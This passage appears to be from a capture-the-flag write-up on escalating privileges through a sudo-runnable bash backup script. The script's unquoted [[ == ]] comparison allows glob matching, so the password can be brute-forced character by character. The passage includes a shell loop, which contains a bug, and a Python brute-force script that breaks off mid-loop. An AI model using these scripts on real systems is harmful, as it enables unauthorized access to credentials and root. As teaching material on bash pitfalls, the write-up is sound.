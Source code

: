 ```bash
Variable expansion:

    Good: "$my_var"
    Bad: $my_var

Command substitution:

    Good: "$(cmd)"
    Bad: $(cmd)

```

It seems he can sudo run a backup script located at ```/opt/scripts/mysql-backup.sh```. Inspect the code of the script which reveals to be vulnerable to wildcard injection.

```bash
...
if [[ $DB_PASS == $USER_PASS ]]; then
...
```

Okay, but how to exploit it, after searching online I have [found out](https://mywiki.wooledge.org/BashPitfalls?source=post_page-----933488bfbfff--------------------------------) that if right side of `==` is not quoted then bash does pattern matching against it, instead of treating it as a string.

```bash
{valid_password_char}{*}
```

Using double brackets in the if comparison allows us to use wildcards to guess the password, using a process similar to blind sql injections. To find out more about the difference between single brackets and double brackets read this: https://www.baeldung.com/linux/bash-single-vs-double-brackets#4-pattern-matching. In summary, both conditions ```[[$DB_PASS == Password123!]] and [[$DB_PASS == P* ]]``` will be evaluated as true in the if statement. To brute force the password you can use 3 methods:

- **Manually**. Letter by letter, **not recommended**.
- **Semi-manually**. Create a file called letter containing all lower-case, upper-case and digits and bruteforce them using a loop. As soon as you find a new character, add it to the for loop (e.g. ...echo abcde*...) and repeat until no more letters are discovered. Add letters sequentially as you discover in each iteration. The first loop iteration would look like this:

    ```bash
    for i in $(cat letters);do echo a* | sudo /opt/scripts/mysql-backup.sh && echo "$i";done
    ```

- **Using a python script**. Elegant and fast. The machine also has perl installed. A proposed python script would be the following:

```python
import string
import os

chars = string.ascii_letters + string.digits
password=''
next=1

print("[+] Initializing bruteforce script...")
print("[+] Bruteforce in progress, please wait...")
while next==1:
        for i in chars:
                errorlevel=os.system("echo "+password+i+"* | sudo /opt/scripts/mysql-backup.sh >/dev/null 2>&1")
                if errorlevel==0:
                        password=password+i
                        print("[+] new character found: "+password)
                        next=1
                        break
```